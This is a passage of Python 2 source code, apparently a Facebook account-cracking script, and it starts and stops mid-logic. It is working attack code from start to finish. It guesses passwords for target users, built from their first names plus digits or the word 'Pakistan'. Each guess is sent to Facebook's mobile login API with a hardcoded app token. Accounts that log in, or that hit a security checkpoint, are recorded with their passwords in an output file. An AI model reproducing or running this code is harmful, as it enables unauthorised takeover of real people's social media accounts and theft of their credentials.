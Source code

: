cek.close()
cekpoint.append(user+pass1)
else:
pass2 = b['first_name']+'12345'
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
oks.append(user+pass2)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass2+"\n")
cek.close()
cekpoint.append(user+pass2)
else:
pass3 = b['first_name'] + '123'
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
oks.append(user+pass3)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass3+"\n")
cek.close()
cekpoint.append(user+pass3)
else:
pass4 = 'Pakistan'
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
oks.append(user+pass4)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass4+"\n")
cek.close()
cekpoint.append(user+pass4)
else:
pass5 = b['first_name'] + '12'
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q: